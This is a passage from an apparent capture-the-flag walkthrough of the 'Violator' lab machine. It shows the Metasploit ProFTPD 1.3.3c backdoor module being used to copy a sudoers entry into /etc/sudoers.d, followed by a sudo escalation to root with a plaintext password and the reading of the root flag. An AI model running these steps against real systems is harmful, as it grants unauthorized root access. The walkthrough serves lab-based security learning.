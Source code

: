 Now that I have metasploit port forwarding the ftp connection and I'm connected to it, I can use the exploit in proftpd 1.3.3c [https://www.exploit-db.com/exploits/15662/](https://www.exploit-db.com/exploits/15662/) with the metasploit module ```exploit/unix/ftp/proftpd_133c_backdoor``` along with the payload ```/cmd/unix/generic```

First in the using the shell I wrote ```dg ALL=(ALL:ALL)  ALL``` to ```/tmp/exploit``` since I'm using that to get root. Then I used the proftpd v1.3.3c exploit to actually copy it to the right directory:

```
msf > use exploit/unix/ftp/proftpd_133c_backdoor
msf exploit(proftpd_133c_backdoor) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf exploit(proftpd_133c_backdoor) > set rport 2121
rport => 2121
msf exploit(proftpd_133c_backdoor) > set payload cmd/unix/generic
payload => cmd/unix/generic
msf exploit(proftpd_133c_backdoor) > set cmd chmod 0440 /tmp/exploit && cp /tmp/exploit /etc/sudoers.d
cmd => chmod 0440 /tmp/exploit && cp /tmp/exploit /etc/sudoers.d
msf exploit(proftpd_133c_backdoor) > exploit

[*] 127.0.0.1:2121 - Sending Backdoor Command
[*] Exploit completed, but no session was created.
```

```
dg@violator:/var/www/html$ sudo -l

...
User dg may run the following commands on violator:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /home/dg/bd/sbin/proftpd
dg@violator:/var/www/html$ sudo su
sudo su
[sudo] password for dg: policyoftruth

root@violator:/var/www/html# cd /root
cd /root
root@violator:~# ls
ls
flag.txt
root@violator:~# cat flag.txt
cat flag.txt
I say... I say... I say boy! Pumping for oil or something...?
---Foghorn Leghorn "A Broken Leghorn" 1950 (C) W.B.
```

And that get's us the flag! Now for the <i>final enigma</i>.

# The Final Enigma

Within the root folder there's also a suspicious directory ```.basildon``` containing ```crocs.rar```
